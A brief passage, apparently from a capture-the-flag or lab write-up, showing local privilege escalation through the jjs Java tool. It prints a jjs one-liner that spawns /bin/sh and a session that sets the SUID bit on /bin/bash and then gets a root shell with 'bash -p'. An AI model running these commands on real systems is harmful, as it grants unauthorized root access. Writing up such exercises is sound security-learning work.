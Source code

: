 The Shell thing didn't work, But it looks like it executes `/bin/sh`, so Instead of that  tried to give SUID to bash.

```echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | jjs```

```
    $ jjs 
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
    0
    jjs> 
    $ /bin/bash -p
    bash-4.4# whoami
    root
    bash-4.4#
```
We are Root!